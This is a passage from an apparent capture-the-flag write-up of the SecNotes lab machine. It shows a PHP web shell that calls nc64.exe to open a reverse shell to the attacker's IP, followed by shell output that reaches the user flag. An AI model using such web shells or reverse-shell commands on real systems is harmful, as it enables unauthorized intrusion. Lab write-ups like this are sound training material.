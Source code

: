 =) Let's get a reverse-shell!

At first I used "nc.exe", but soon remembered it's a Windows 10 box, running a 64Bit OS.
If you start a 32Bit executable on a 64Bit OS, you get a different environment. A different registry and
some programs won't work. So I switched to "nc64.exe".

{{< highlight php >}}
<?php
  echo "Cyber PewPew";

  $last_command = system('nc64.exe 10.10.15.140 4445 -e cmd.exe',$ret);

  echo $last_command;

  echo "\n ------------------------------- \n";
  echo $ret;
?>
{{< / highlight >}}

![RevShell](SecNotes-RevShell.png)

We've got a shell AND....

[[Top]](#top)

# User Flag

...sure enough "user.txt"! :)

{{< highlight bash >}}
C:\inetpub\new-site>whoami
whoami
secnotes\tyler

C:\Users\tyler\Desktop>dir
 Directory of C:\Users\tyler\Desktop

08/19/2018  08:25 AM                34 user.txt

{{< / highlight >}}

[[Top]](#top)

# Internal Recon
While searching around on the box to find clues on the next step to `root.txt`,
I noticed an "Ubuntu" archive and a "Distros" folder. I remember wondering "Why is this stuff here?"
But didn't put 1 + 1 together.
